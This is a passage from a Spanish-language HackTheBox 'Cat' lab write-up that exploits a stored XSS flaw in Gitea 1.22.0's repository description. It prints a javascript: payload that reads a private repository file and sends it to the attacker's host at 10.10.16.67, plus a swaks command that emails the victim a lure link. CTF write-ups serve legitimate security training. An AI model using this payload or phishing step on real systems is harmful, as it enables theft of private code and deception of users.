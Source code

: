 
Vemos la versión 1.22.0 de gitTea.

Buscando por exploits encontramos [un exploit, claro](https://www.exploit-db.com/exploits/52077)

Se trata de un ataque sencillo de XSS en la descripción del repositorio git, en la web se explica exactamente como hacerlo.

Antes de nada, vamos a acceder como Axel a gittea, la contraseña es la misma que la que encontramos en el access.log.

## Exploit

Creamos el repositorio git con un documento vacío.

y le añadimos de description un payload XSS.

```html
   <a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.16.67/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">more</a>
```

![alt text](/assets/img/writeups/hackthebox/cat_htb/image-21.png)

Haciendo uso del servidor de correo vamos a enviar mail a jobert@cat.htb con el payload.

```bash
❯ swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: click link" --body "http://localhost:3000/axel/gold" --server localhost --port 25 --timeout 30s
```

Usando swaks podemos enviar mails desde el servidor de correo redireccionado al puerto 25.

Ahora a la espera de la respuesta en nuestro puerto 80.

![alt text](/assets/img/writeups/hackthebox/cat_htb/image-22.png)
